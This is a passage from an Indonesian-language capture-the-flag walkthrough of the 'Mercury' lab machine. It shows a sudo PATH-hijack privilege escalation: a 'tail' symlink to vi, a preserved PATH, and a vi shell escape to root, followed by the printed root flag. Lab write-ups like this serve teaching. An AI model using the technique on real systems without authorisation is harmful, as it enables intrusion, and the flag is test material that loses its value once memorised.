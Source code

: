 kemudian langsung saja aku membuat shortcut menggunakan command `ln`, kemudian diarah ke `/bin/vi`. Dan membuat `PATH (pwd)`.

```bash
linuxmaster@mercury:~$ ln -s /usr/bin/vi tail
linuxmaster@mercury:~$ l
tail@
linuxmaster@mercury:~$ export PATH=$(pwd):$PATH
linuxmaster@mercury:~$ sudo --preserve-env=PATH /usr/bin/check_syslog.sh
```

maka akan terbuka `vi` nya, kemudian ketik `:!/bin/bash` untuk mendapatkan shell root. Fungsi `!` adalah untuk menjalankan perintah shell menggunakan root dari dalam `vi`.

dan dapatlah shell root.

```
root@mercury:/home/linuxmaster#
```

kemudian langsung saja masuk ke `/root` dan mendapatkan root flag.

```bash
root@mercury:/home/linuxmaster# cd /root
root@mercury:~# ls
root_flag.txt
root@mercury:~# cat root_flag.txt
root@mercury:~# cat root_flag.txt 
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/##////////@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@(((/(*(/((((((////////&@@@@@@@@@@@@@
@@@@@@@@@@@((#(#(###((##//(((/(/(((*((//@@@@@@@@@@
@@@@@@@@/#(((#((((((/(/,*/(((///////(/*/*/#@@@@@@@
@@@@@@*((####((///*//(///*(/*//((/(((//**/((&@@@@@
@@@@@/(/(((##/*((//(#(////(((((/(///(((((///(*@@@@
@@@@/(//((((#(((((*///*/(/(/(((/((////(/*/*(///@@@
@@@//**/(/(#(#(##((/(((((/(**//////////((//((*/#@@
@@@(//(/((((((#((((#*/((///((///((//////(/(/(*(/@@
@@@((//((((/((((#(/(/((/(/(((((#((((((/(/((/////@@
@@@(((/(((/##((#((/*///((/((/((##((/(/(/((((((/*@@
@@@(((/(##/#(((##((/((((((/(##(/##(#((/((((#((*%@@
@@@@(///(#(((((#(#(((((#(//((#((###((/(((((/(//@@@
@@@@@(/*/(##(/(###(((#((((/((####/((((///((((/@@@@
@@@@@@%//((((#############((((/((/(/(*/(((((@@@@@@
@@@@@@@@%#(((############(##((#((*//(/(*//@@@@@@@@
@@@@@@@@@@@/(#(####(###/((((((#(///((//(@@@@@@@@@@
@@@@@@@@@@@@@@@(((###((#(#(((/((///*@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@%#(#%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@

Congratulations on completing Mercury!!!
If you have any feedback please contact me at SirFlash@protonmail.com
[root_flag_69426d9fda579afbffd9c2d47ca31d90]
```

Selamat kamu sudah mendapatkan user flag dan root flag. Later for next explanation bro 🥀💔.